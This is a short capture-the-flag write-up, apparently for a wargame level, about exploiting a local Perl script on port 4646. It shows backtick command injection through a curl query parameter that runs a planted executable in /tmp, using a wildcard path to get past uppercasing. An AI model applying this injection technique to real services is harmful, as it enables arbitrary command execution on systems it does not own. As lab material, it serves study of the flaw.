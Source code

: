 ## This repository contains a server-side perl script.
## This script is running on localhost on port 4646. It expects a client to connect and send two parameters x and y.
## It then capitalizes x and removes everything after the first whitespace. the result is executed by egrep 
## We have user privileges on this script.

# We create a file /tmp/42 with executable permissions that contains

getflag > /tmp/result

# We provide the link to this file so it is executed by egrep.
# The obstacle here is that the path will be capitalized, this is why we replace tmp by  `*`.
# The file will be searched in all the repositoris until it is found and executed.
# We escape the backticks so that the execution doesnt take place in our shell but in flag12's.

chmod +x /tmp/42
curl localhost:4646?x=\`/*/42`\
